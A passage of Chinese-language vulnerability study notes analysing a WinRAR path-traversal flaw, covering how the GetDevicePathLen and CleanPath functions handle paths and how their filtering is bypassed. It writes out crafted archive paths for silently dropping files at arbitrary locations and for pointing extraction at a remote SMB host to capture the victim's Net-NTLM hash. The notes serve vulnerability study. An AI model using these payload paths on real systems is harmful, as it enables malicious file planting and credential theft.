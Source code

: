 ```
该函数为此路径返回长度3：C:\some_folder\some_file.ext    C：\ -->3
该函数为此路径返回1：\some_folder\some_file.ext
该函数为此路径返回15：\\LOCALHOST\C$\some_folder\some_file.ext
该函数为此路径返回21：\\?\Harddisk0Volume1\some_folder\some_file.ext
该函数为此路径返回0：some_folder\some_file.ext
```

如果大于 0 在 视为完整路径（可用路径），否则为非完整路径

2. 但是调动 GetDevicePathLen 之前还有 **CleanPath**函数，功能主要为过滤一些路劲序列

   ![fig17.jpg](https://github.com/zhongshendoushuizhao/project/blob/master/vul_learn/windows/app/winrar/fig17.jpg?raw=true)

```
 \..\   -->   去掉..\   -->  \
 c:\     -->     "" 清除
 C:\C:  -->   “”  清除
 
其他被清除符号：   “ _:\”，“ _:”，“ _:\_:”
```

则其在攻击时，进行了两次绕过

则要实现

sprintf(final_file_path, "%s%s", "", file_relative_path); 的 空字符拼接

则 `GetDevicePathLen`函数的结果应大于0. 

同时，过滤后仍为可访问路径



1. **则通过 c:\c:\ 来进行伪装 使  返回值 大于0 同时  造成   过滤掉 C:\C：  变为 \ 相对路径**

2. 通过

```
相对路径C:\\\10.10.10.10\smb_folder_name\some_folder\some_file.ext   
最终路径\\10.10.10.10\smb_folder_name\some_folder\some_file.ext
可以实现SMB服务器的任意路径访问后者常见文件或文件夹。
```



**攻击者给出的绕过利用思路：**

```
1.攻击方法：使用漏洞，将恶意文件静默释放至可能造成危害的路径中实现攻击。
恶意的相对路径：C:\C:\some_folder\some_file.ext
最终的解压路径：C:\some_folder\some_file.ext
构造 C:\C:\这种结构是在解析时，提取盘符头后，直接造成相对路径为释放路径
```

```
2.攻击方法：获取受害者的Net-NTLM hash，从而使用NTLM Relay的方式攻击受害者。
恶意的相对路径：C:\\10.10.10.10\smb_folder_name\some_folder\some_file.ext
最终的解压路径：\10.10.10.10\smb_folder_name\some_folder\some_file.ext
构造\\造成解析时 会多一个\ 从而造成相对共享的攻击效果
```
